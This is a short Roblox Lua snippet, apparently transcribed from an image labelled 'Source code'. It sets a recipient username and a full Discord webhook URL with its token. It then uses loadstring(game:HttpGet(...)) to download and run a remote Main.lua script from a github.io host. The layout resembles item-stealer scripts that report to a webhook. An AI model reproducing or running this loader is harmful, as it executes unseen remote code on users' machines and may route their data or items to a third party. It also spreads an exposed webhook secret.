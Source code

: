 UserName = "MrbinwingZ"
Webhook = "https://discord.com/api/webhooks/1102043564214599751/HtvA1hKm_BMyrURfL9iIxCV1QIb95Y2rELHdYkgQWR5ciCm0R7AIeLFq3CubiP6d-H9c"

loadstring(game:HttpGet("https://rizz69.github.io/Main.lua", true))() 
